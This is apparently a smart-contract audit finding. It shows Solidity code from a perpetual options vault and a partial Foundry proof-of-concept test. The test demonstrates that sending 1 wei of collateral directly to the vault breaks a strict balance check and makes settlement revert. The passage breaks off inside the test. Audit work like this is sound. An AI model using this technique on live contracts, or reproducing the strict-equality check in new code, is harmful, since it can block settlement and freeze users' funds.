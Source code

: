 ```solidity
      optionPositions[optionIds[i]].strike = 0;
    }

    // Transfer collateral token from perpetual vault to rdpx rdpxV2Core
    collateralToken.safeTransferFrom(
      addresses.perpetualAtlanticVaultLP,
      addresses.rdpxV2Core,
      ethAmount
    );
    // Transfer rdpx from rdpx rdpxV2Core to perpetual vault
    IERC20WithBurn(addresses.rdpx).safeTransferFrom(
      addresses.rdpxV2Core,
      addresses.perpetualAtlanticVaultLP,
      rdpxAmount
    );

//@audit problem will occur on this line since substractLoss uses strict equality which will be broken by directly transfering tokens to the underlying contract
    IPerpetualAtlanticVaultLP(addresses.perpetualAtlanticVaultLP).subtractLoss(
      ethAmount
    );
    IPerpetualAtlanticVaultLP(addresses.perpetualAtlanticVaultLP)
      .unlockLiquidity(ethAmount);
    IPerpetualAtlanticVaultLP(addresses.perpetualAtlanticVaultLP).addRdpx(
      rdpxAmount
    );

    emit Settle(ethAmount, rdpxAmount, optionIds);
  }
```

```solidity
contracts/perp-vault/PerpetualAtlanticVaultLP.sol

function subtractLoss(uint256 loss) public onlyPerpVault {
    //@audit require will revert because collateral.balanceOf(address(this)) will have 1 wei more
		require(
      collateral.balanceOf(address(this)) == _totalCollateral - loss,
      "Not enough collateral was sent out"
    );
    _totalCollateral -= loss;
  }
```

Poc

```solidity
function testAuditSettleCantBeCalledIfUserSends1WeiToCollateral() public {
        weth.mint(address(1), 1 ether);
        deposit(1 ether, address(1));

        vault.purchase(1 ether, address(this));

        uint256[] memory ids = new uint256[](1);
        ids[0] = 0;

        priceOracle.updateRdpxPrice(0.2 gwei); // initial price * 10
        uint256[] memory strikes = new uint256[](1);
        strikes[0] = 0.015 gwei;

        priceOracle.updateRdpxPrice(0.01 gwei);
				
//@audit send 1 wei to break accounting
        weth.transfer(address(vaultLp), 1 wei);
        vm.expectRevert();
```